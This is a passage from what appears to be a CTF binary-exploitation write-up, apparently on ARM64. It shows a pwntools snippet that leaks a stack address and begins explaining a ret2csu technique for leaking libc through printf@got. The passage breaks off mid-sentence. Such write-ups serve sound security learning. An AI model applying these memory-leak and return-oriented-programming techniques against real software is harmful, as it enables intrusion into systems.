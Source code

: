 ```python
log.info(f"Hunting for {name[-10:]}")                 # Just the last 10 bytes is  needed
p.readuntil(name[-10:] + b"\n")                 # Just the last 10 bytes is  needed - new line as a terminator
STACK_LEAK = b"\n" + p.readuntil("\n; send", drop=True)     # Raw bytes of addr - we needed the \n as a delimieter in teh readuntil
log.success(f"Leaked $sp : {STACK_LEAK}")
STACK_LEAK = STACK_LEAK.ljust(8, b"\x00")           # Pack out to full 64 bits
log.success(f"Leaked $sp : {STACK_LEAK}")
STACK_LEAK = u64(STACK_LEAK)                        # Unpack 64 bit addre
log.success(f"Leaked $sp : {hex(STACK_LEAK)}")
```

And then we can successfuly ret to main there! Woo!

## Leaking  libc Address with ret2csu

To leak libc, all we need to do is printf(printf@got) and use the offset of printf in libc to find libc base. Unfortunately there's no good gadgets to set $x0=printf_plt (which we can resolve given pie base), so everyone seemed to solve this with ret2csu, seems pretty heavy! But the basics are that it's a gadget in the binary that lets us ocntrol registers, to prep up a gadget to call printf. There's an original post they all reference for ret2csu:

[ret2csu - A Return Oriented Programming Technique](https://pwning.tech/2020/04/13/ret2csu/)

### ret2csu for n00bs

This was a new technique to me, so here's my super quick summary of the technique. CSU affods some interesting code at its epilogue
